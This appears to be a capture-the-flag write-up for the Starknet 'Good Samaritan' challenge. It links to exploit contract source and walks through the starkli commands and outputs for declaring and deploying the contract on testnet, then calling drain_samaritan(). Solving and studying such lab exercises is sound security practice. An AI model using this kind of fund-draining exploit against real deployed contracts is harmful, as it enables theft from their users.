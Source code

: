 The exploit contract source code can be found [here](https://github.com/zmalatrax/starknet_security/blob/main/good_samaritan/src/good_samaritan_exploit.cairo).

1. Deploy the challenge:

Challenge address: 0x10af0dea72bb94d04bd18159c9a3e740b7fbe706d4dbc829ed116c40b25a738

2. Craft the exploit contract:

   - Create a new scarb project: `scarb new good_samaritan && cd good_samaritan`
   - Update the `Scarb.toml` with starknet dependecies
   - Implements the exploit

3. Declare the contract:

```bash
scarb build
starkli declare --watch target/dev/good_samaritan_GoodSamaritanExploit.contract_class.json
```

Class Hash: 0x06c7ad2747323e1d33140e08785e9cc5841e3481a97b2e83ffe218e386aa0c28

4. Deploy the contract:

```bash
starkli deploy --watch 0x06c7ad2747323e1d33140e08785e9cc5841e3481a97b2e83ffe218e386aa0c28 0x10af0dea72bb94d04bd18159c9a3e740b7fbe706d4dbc829ed116c40b25a738
```

Contract address: 0x04386e932121e46c90ccd402493b7a8135aef0e21b58f2b77d92618e181e909c

5. Call `drain_samaritan()`:

   ```bash
   starkli invoke 0x04386e932121e46c90ccd402493b7a8135aef0e21b58f2b77d92618e181e909c $(starkli selector drain_samaritan)
   ```

6. Verify the solution and mint the NFT

NOTE A: Starkli declare output

```bash
Sierra compiler version not specified. Attempting to automatically decide version to use...
Network detected: sepolia. Using the default compiler version for this network: 2.4.0. Use the --compiler-version flag to choose a different version.
Declaring Cairo 1 class: 0x06c7ad2747323e1d33140e08785e9cc5841e3481a97b2e83ffe218e386aa0c28
Compiling Sierra class to CASM with compiler version 2.4.0...
CASM class hash: 0x075a0696b8dc00b8ff58f0a4fc6633a6140e5b4fd18baca2c2a9068171eb1013
Contract declaration transaction: 0x07c64c803d11a4dbc5751eb22bc7674e97f617ac93c2de9e713354184d7a86ee
Class hash declared:
0x06c7ad2747323e1d33140e08785e9cc5841e3481a97b2e83ffe218e386aa0c28
```

NOTE B: Starkli deploy output

```bash
Deploying class 0x06c7ad2747323e1d33140e08785e9cc5841e3481a97b2e83ffe218e386aa0c28 with salt 0x07733b541121bf54951c7b615e029e46234e2725d2270b3eccc3dfb20f90eb49...
The contract will be deployed at address 0x04386e932121e46c90ccd402493b7a8135aef0e21b58f2b77d92618e181e909c
Contract deployment transaction: 0x00773b9b92562d063a0961598bec9ed5fd39d4875d947d8f0fee553b728044cf
Contract deployed:
0x04386e932121e46c90ccd402493b7a8135aef0e21b58f2b77d92618e181e909c
```
